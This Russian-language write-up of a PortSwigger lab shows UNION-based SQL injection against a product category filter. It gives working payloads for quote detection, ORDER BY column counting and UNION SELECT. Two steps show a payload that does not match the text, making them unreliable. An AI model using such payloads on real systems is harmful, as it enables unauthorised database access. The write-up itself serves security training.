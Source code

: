 ```yaml
---
title: "SQL injection UNION attack, determining the number of columns returned by the query"
date: 2025-06-19
tags: [sqli, writeup]  
actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns"
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


## Scope

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Для решения необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Solution

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице, и значения для фильтрации передаются через параметры `GET`-запроса.

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/1.png){: height="200" .align-center}

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```


Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/2.png){: height="200" .align-center}

Запрос к БД выглядел следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

<details>
  <summary>Подробнее</summary>
  
  `-- -` - это комментарий в SQL, с помощью него я убрал всю последующую часть запроса. В данном случае это лишняя кавычка, которая ломала бы запрос.
</details>
<br>

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/3.png){: height="200" .align-center}

Далее можно использовать бинарный поиск для нахождения нужного значения. То есть передать 50. В случае ошибки взять 25. Если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4 (для сокращения буду писать только часть пейлоада):

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/4.png){: height="200" .align-center}

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/5.png){: height="200" .align-center}

Супер. ~~Сбер теперь купер~~.

Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД:
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/6.png){: height="200" .align-center}

Оберну значения в кавычки:

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/7.png){: height="200" .align-center}

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
